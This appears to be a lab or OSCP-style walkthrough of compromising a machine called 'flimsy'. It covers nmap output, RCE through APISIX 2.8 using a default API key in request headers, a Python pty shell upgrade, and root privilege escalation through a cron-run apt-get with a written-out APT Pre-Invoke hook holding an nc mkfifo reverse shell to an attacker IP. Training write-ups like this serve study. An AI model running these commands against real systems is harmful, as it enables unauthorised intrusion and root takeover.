



# Information Collection

## NMAP

```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
9443/tcp  open  tungsten-https
43500/tcp open  unknown
```


## Webpage enumeration

Access to :43500, check the network information, the server is APISIX/2.8



search on google, the first one is relate to RCE.



Change the headers parameter.

```json
headers1 = {
    'Host': '192.168.183.220:43500',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69',
    'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
    'Accept': '*/*',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/json',
    'Content-Length': '540',
    'Connection': 'close',
}

headers2 = {
    'Host': '192.168.183.220:43500',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69',
    'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
    'Accept': '*/*',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/json',
    'Connection': 'close',
}
```


Then try to use nc to rev shell.



Then get shell, the shell is not good, so upgrade the shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' 
```

Get local.txt

```bash

franklin@flimsy:/root$ cd /home
cd /home
franklin@flimsy:/home$ cd franklin
cd franklin
franklin@flimsy:/home/franklin$ ls
ls
etcd-v3.4.13-linux-amd64  etcd-v3.4.13-linux-amd64.tar.gz  local.txt
franklin@flimsy:/home/franklin$ cat local.txt
cat local.txt
8173341e420fd2c2428c6195dc27b661

```

# PE

```bash
OS: Linux version 5.4.0-122-generic (buildd@lcy02-amd64-095) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022

╔══════════╣ Sudo version
                                   
Sudo version 1.8.31 

╔══════════╣ Operative system
                        
Linux version 5.4.0-122-generic (buildd@lcy02-amd64-095) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.4 LTS
Release:        20.04
Codename:       focal


17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * root apt-get update
* * * * * root /root/run.sh


```

Found the root will running `apt-get update`, so add a new file to `apt.conf.d`, generate a rev shell command.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.222 4445 >/tmp/f

echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.222 4445 >/tmp/f"};' > shell
```

Then wait a sec, will get root shell.

```bash
┌──(aaron㉿aacai)-[~/Desktop/OSCPB]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.183.220] 40474
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# cat proof.txt
5e056e280d44ac48793cf63879e3d647


```

